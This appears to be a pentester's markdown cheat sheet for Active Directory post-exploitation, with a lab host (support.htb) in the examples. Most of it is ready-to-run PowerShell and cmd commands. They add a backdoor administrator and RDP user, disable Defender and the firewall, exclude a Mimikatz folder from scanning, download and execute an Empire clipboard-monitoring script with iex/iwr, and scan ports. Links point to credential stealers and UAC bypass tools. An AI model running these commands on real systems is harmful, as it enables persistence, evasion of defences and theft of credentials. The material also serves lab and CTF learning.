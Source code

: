 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# Post Exploitation

### Add Local Administrator

Add user **asuka** and add to RDP Users

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add
net localgroup "Administrators" asuka /add

# Then access with xfreerdp
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb \
/u:asuka /p:'TrYh@rdeR!' +nego
# or using rdesktop
rdesktop support.htb
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Disable Defender Feature

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\
# Check all exclusion folder
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath
```
{% endcode %}

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# or
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### WinPEAS

Windows Privilege Escalation Awesome Scripts

* [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### UACME

UAC Bypass

* [https://github.com/yuyudhn/UACME-bin](https://github.com/yuyudhn/UACME-bin)
* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

### PowerUp

PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It is not a comprehensive check against all known privilege escalation techniques, but it is often a good place to start when you are attempting to escalate local privileges.

* [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Advanced PowerUp.ps1 Usage](https://rootrecipe.medium.com/advanced-powerup-ps1-usage-ad0f6d713a9f)
* [HackTricks: PowerUp](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/powerup)

### Dump Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
* Mimikatz

### TCP Port Scanner

{% code overflow="wrap" %}
```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.8.1",$_)) "Port $_ is open!"} 2>$null # powershell
```
{% endcode %}

### Ping Sweep

{% code overflow="wrap" %}
```powershell
for /l %i in (1,1,254) do @ping -n 1 -w 100 172.16.8.%i > nul && echo 172.16.8.%i is up. # cmd
```
{% endcode %}

### Inveigh

Responder, but in Powershell/C#

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

